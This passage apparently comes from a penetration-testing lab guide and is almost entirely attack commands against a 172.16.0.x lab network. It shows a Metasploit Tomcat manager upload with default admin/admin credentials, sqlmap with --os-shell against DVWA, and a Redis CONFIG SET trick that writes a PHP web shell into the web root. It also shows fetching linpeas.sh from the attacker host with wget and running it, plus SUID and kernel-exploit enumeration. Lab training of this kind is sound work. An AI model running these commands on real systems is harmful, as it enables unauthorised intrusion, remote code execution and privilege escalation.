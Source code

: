 ### Metasploit Framework
```bash
msfconsole

# Database setup
db_status
workspace -a oscp_lab

# Import nmap scans
db_import detailed-scan.txt

# Search for exploits
search type:exploit platform:linux
search tomcat

# Example: Tomcat manager deploy
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 172.16.0.70
set RPORT 8080
set HttpUsername admin
set HttpPassword admin
set LHOST 172.16.0.11
run
```

### Manual Exploitation
```bash
# SQL Injection to Shell (DVWA)
sqlmap -u "http://172.16.0.30/vulnerabilities/sqli/?id=1" --cookie="PHPSESSID=xxx" --os-shell

# Redis RCE
redis-cli -h 172.16.0.80 -a redis123
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET test "<?php system($_GET['cmd']); ?>"
SAVE

# WordPress plugin upload
# Create malicious plugin, upload via admin panel
```

---

## Phase 4: Post-Exploitation

### Privilege Escalation
```bash
# Linux enumeration
wget http://172.16.0.11:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Check sudo privileges
sudo -l

# SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Kernel exploits
uname -a
searchsploit linux kernel
```
